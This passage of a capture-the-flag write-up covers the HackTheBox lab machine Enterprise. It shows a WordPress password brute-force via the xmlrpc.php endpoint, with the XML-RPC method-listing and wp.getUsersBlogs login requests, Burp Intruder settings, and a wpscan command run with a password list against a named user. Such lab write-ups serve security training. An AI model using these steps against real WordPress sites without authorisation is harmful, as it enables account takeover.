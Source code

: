 Now it is very simple, to test the credentials I obtained, because I have only one candidate for username (**william.rikker**), but in the case of <ins>having many or even none</ins>, I can perform a brute force attack. There are some mechanisms, such as using the information available in the **xmlrpc.php** file (if visible) and using **BurpSuite**, or even using the excellent `wpscan` tool. Following both ways I find the user and his password, all the information of the steps to follow is available in the excellent **[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress){:target="_blank"}** resource and **[WordPress XMLRPC brute force attacks via BurpSuite](https://testpurposes.net/2016/11/01/wordpress-xmlrpc-brute-force-attacks-via-burpsuite/){:target="_blank"}**.

```bash
# http://enterprise.htb/xmlrpc.php            Exist!   :)

burpsuite &>/dev/null & disown
```

> **xml inyection**: get available methods

```xml
  <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
  </methodCall>

#        --> wp.getUsersBlogs   :)
```

> **xml inyection**: brute force attack with BurpSuite

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
     <methodName>wp.getUsersBlogs</methodName>
        <params>
           <param><value>administrator</value></param>
           <param><value>admin</value></param>
       </params>
</methodCall>

#        --> Incorrect username or password

# Burp --> Intruder --> sniper --> william.rikker  §pass§
#      --> Payloads (Credentials.txt) (Url-encode.... Disable!)
#      --> Options (Grep-extract -> Incorrect username or password)
```

```bash
wpscan --url http://enterprise.htb/ -U william.riker -P Crendentials.txt        # :)
```

<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_040.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_041.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_042.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_043.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_044.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_045.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_046.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">